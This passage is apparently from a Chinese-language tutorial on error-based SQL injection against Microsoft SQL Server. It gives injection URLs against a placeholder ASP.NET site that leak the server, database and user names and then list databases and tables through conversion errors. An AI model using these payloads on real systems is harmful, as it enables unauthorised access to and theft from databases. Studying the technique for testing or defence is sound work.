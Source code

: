   

报错信息：

在将 nvarchar 值 ‘WINDOWS-XXXXXX‘ 转换成数据类型 int 时失败。

#### **查询当前数据库名称**

`db_name()`：当前使用的数据库名称。

  

报错信息：

在将 nvarchar 值 ‘abc‘ 转换成数据类型 int 时失败。

#### **查询当前连接数据库的用户**

`User_Name()`：当前连接数据库的用户。

  

报错信息：

在将 nvarchar 值 ‘dbo‘ 转换成数据类型 int 时失败。

注意：如果看到dbo，那么多半当前数据库的用户是dba权限。

#### **查询其他数据库名称**

**爆其他数据库:**

```
http://www.xxx.cn/xxx/xxx.aspx?id=1  and (SELECT top 1 Name FROM Master..SysDatabases)>0
```

  

报错信息：

在将 nvarchar 值 ‘master‘ 转换成数据类型 int 时失败。

  

**再爆其他的数据库则这么写：**

```
http://www.xxx.cn/xxx/xxx.aspx?id=1  and (SELECT top 1 Name FROM Master..SysDatabases where name not in ('master'))>0
```

  

**继续的话要这么写：**

```
http://www.xxx.cn/xxx/xxx.aspx?id=1  and (SELECT top 1 Name FROM Master..SysDatabases where name not in ('master','abc'))>0
```

#### **查询数据库中的表名**

查表名：

```
http://www.xxx.cn/xxx/xxx.aspx?id=1  and (select top 1 name from abc.sys.all_objects where type='U' AND is_ms_shipped=0)>0
```
  